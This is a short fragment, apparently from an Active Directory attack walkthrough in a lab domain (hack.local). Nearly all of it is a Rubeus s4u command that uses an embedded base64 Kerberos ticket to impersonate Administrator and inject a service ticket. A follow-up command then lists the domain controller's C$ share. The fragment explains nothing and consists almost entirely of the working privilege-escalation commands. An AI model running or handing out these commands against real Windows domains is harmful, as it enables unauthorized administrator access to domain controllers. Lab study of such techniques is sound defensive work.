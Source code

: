 ```powershell
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.hack.local /dc:DC.hack.local /ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID8TCCA+1hggPpMIID5aADAgEFoQwbCkhBQ0suTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmhhY2subG9jYWyjggOtMIIDqaADAgESoQMCAQKiggObBIIDl62eAXEBcsFR1ZArpG77Sy8bCYgTlgs4J2d4c/fJRK96uR2Hwn0G v6ctgohyrxESGUGz1yvJc4zpG9htonPM/dkYKwqD9srjvlUoHrfdUuFXmwO5imqmyZiKj0Jtq7if/APokTOvzU3CKlTum/uyElk8lMiIDdriWkvcNIuTjCuyVsVjWMeMR9JSmedO1hHnyGNoyMp/RXZrrnfpiD3A9PB7/eRSLCVF+A56DjyytLTMYncl7kvrYghFpJE1x5lA1yXk a4CmXmYPJgZou3lFtpyORxv0E77Apf5Osr/8xWn2L+orw9QJg181ztENYShYcmrKf7g55KifZknjJz+HSSZBsianmi4DQXoxj5zFB1pRiyaWIA/YHAtg7+YjvjVQ+ODNW5xshLEfi0tms9gXNlGCyUO1VISeUPeV8As4RCuLdryO1TRgT1aNXbrTYwLEO+0Vi3RiJJG1NCzrwvND B15Z8X22T6mvqT7m4VShi2UXl4u+udFo2ilUTDOM//Tm1Iry6E0u46ZqWvoGtZSVoujKsPu06m511LAa+YNzj+QCTQLIjbAiyOXeIO6VYqyf7smilqae7u68uP0KGTDcSqaVevUzbgpZN5YKWAytcE+M67uRBXj+RkBP6785k55yn+KrI3AQq1WV4AcCCozTQKHrAQIyjWGuelNg HlN9DS3THdiwTEOIG3DdC8+WBVdaEe1UAfN4ak+OOuFxIBDUgWI0klfHVh5Dob2Kb8SnmRQuO7rXu7fMiE4XG2fj7E2iQvDn211S3+ynVICb//QT4ZC1LIPsgp9wqQVarizoh/u4hIXTHc/ELqgKqg2bU14+XmiMZ4epVFbm8lPFvFqgw8n9EaGK0NSsK3RR7RZaEbKmJlMCGF0s ZMEGY617/R13kRGzTrgJxYVpD9jK4f2SZxa4eMoNHXQ9jconEfxPQji52CMftt3alo1hQcjLnm/OPAb6SPcMoqVv/p/HtfdiFOy+3rJX+Eurw8HV3R60c3MzpakUa6p+extyMquW5AfT83sw+nJVydlHRqbRD0RBXMi5H//w/LwT9Xj6nETdoYVXXx8ETLFRwbbUcjjz2PztlLma M5RlTM7o4JfBH28cppr6D7XxxQqrUZNEDEkAArHsxWgnPWR6O0iLshjCTFyecUC/8tljWEBd4vrjMXpsNbLgf8RQ5WPDXcQsuxRh3WWcw572Y0g6s08KNtdpwc56/Et6ysvhnmijgdAwgc2gAwIBAKKBxQSBwn2BvzCBvKCBuTCBtjCBs6AbMBmgAwIBF6ESBBCjJtWXFNnraT45 cXBOaejuoQwbCkhBQ0suTE9DQUyiFTAToAMCAQGhDDAKGwhXSU4tV0VCJKMHAwUAQOEAAKURGA8yMDIzMTIxMzA5Mzc1MlqmERgPMjAyMzEyMTMxOTM3NTJapxEYDzIwMjMxMjIwMDkzNzUyWqgMGwpIQUNLLkxPQ0FMqR8wHaADAgECoRYwFBsGa3JidGd0GwpoYWNrLmxvY2Fs

# Visit
dir \\DC.hack.local\C$
```

![](./images/20.png#pic_center)

